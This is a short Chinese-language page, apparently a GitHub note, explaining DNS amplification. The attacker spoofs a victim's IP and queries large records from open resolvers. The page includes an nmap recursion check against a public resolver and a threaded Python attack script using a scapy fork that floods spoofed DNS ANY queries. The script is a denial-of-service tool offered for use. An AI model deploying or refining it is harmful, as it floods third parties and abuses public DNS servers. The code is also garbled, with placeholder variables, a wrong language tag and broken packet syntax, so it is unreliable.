 1.伪造源IP为其他人的ip地址 进行查询

2.被请求的记录体积大，比如TXT格式，400KB 在A机器上，向DNS发送查询那个TXT的记录，并伪造成别人的ip，即可理解为DNS放大攻击。

3.DNS支持递归查询，检查命令如下：

nmap -sU -p53 --script=dns-recursion 223.5.5.5





攻击脚本：



```javascript
#coding=utf-8
import socket, sys, random
from kamene.all import *
import time, threading
from concurrent.futures import ThreadPoolExecutor
def Attack():
    target = DNS地址
    dstport = 53
    isrc =  被攻击源ip
    print(isrc,dstport)
    Domain_Name = 大的解析域名
    isport = random.randint(1,65535)
    #DNS 放大攻击
     send(IP(dst="8.8.8.8",src=target)UDP()/DNS(rd=1, qdcount=1, qa=DNSQR,(qname=Domain_Name, qtype=255)),verbose=0)


executor = ThreadPoolExecutor(max_workers=30)

for i in range(100001):
    executor.submit(Attack)
    thread_num = len(threading.enumerate())
    print(f"线程数量是{thread_num}")
    # t = threading.Thread(target=Attack)
    # t.start()
```

